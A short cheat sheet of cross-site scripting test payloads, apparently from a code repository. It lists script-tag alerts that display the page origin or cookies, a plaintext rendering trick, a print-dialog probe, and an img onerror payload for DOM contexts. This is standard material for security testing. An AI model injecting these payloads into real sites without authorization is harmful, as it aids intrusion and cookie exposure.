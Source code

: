 
Basic payload
```html
<script>alert(window.origin)</script>
```

Basic payload to display cookie
```html
<script>alert(document.cookie)</script>
```

Payload in case alert() is blocked. Stops rendering HTML and turns it into plaintext.
```html
<script><plaintext></script>
```

Payload to pop up browser print dialog (unlikely to be browser-blocked)
```html
<script>print()</script>
```

Payload that does not contain \<script> tag (useful for DOM attacks). Creates new HTML image object with an onerror that triggers when the image cannot be found:
```html
<img src="" onerror=alert(window.origin)>
```